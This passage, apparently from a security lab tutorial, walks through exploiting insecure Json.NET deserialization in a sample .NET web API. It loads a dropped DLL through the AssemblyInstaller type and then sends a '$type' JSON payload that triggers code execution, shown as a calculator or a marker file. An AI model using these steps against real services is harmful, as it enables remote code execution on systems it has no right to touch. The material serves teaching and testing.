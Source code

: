 The **web api** should process the request as normally.

But now a dll has been been created on the specified path:

![dll Created](images/dll_created.png)

Now is time for using **System.Configuration.Install.AssemblyInstaller** to load our dll!

Create a new POST Request and this time use the **System.Configuration.Install.AssemblyInstaller** class, specifying a **Path** value that points to the newly created **dll**.

After doing this step, you could inspect the loaded dll's into the web api process and you will see that our newly created dll is loaded!

For example, in windows, you can use [ListDlls from SysInternals](https://learn.microsoft.com/en-us/sysinternals/downloads/listdlls) for checking that the dll has been loaded:

```bash
    ~/.local/opt/ListDlls/Listdlls64.exe 22000 | grep -E '(Vuln|test)'

```

Outputs:

```
    [...]
    0x0000000013820000  0x8000    c:\\programdata\\test.dll
        Verified:       Unsigned
        Publisher:      AutoLoadClassLib
        Description:    AutoLoadClassLib
        Product:        AutoLoadClassLib
        Version:        1.0.0.0
        File version:   1.0.0.0
        Create time:    Mon Aug 02 17:17:21 2060

```

Now, the web api process has loaded into memory our dll that we just copied, abusing the (de)serialization process due to an insecure configuration.


If you did all the steps correctly, now if you invoke our *class*, in my sample, **AutoLoadClassLib.Class1**, from the loaded dll, **AutoLoadClassLib**, you will trigger some **RCE**.

Use the following json to invoke the class in our dummy class library in the **rawData**:

```json
{
    "$type": "AutoLoadClassLib.Class1, AutoLoadClassLib",
    "fire":61
}
```

In windows you should see pop a **Calculator**, while in linux a new file **/tmp/arale_was_here** should be created.
